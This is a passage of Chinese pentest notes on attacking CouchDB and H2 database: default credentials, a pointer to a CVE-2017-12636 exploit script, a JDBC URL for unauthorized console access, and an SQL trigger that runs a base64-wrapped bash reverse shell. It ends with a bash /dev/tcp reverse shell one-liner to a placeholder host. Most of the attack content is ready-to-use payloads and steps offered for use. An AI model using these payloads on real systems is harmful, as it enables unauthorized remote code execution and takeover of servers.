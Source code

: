 2、登录用户授权

```
Get:/_utils/

xiaodi xiaodi
```

## Couchdb 命令执行 （CVE-2017-12636）

1、下载exp.py

2、修改目标和反弹地址

3、Python3调用执行即可

https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py



# 三、H2database--未授权访问&CVE漏洞

默认端口：20051

Java SQL 数据库 H2,H2的主要特点是：非常快，开源，JDBC API；嵌入式和服务器模式；内存数据库；基于浏览器的控制台应用程序。H2 数据库控制台中的另一个未经身份验证的 RCE 漏洞，在v2.1.210+中修复。2.1.210 之前的H2控制台允许远程攻击者通过包含子字符串的jdbc:h2:mem JDBC URL执行任意代码。

## 1、未授权进入：

```
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\
```

## 2、RCE执行反弹：

创建数据库文件：h2database.sql

```sql
CREATE TABLE test (

id INT NOT NULL

);

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript

Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,base64加密的反弹shell指令}|{base64,-d}|{bash,-i}");';
```

反弹指令示例

```
bash -i >& /dev/tcp/x.x.x.x/6666 0>&1
```
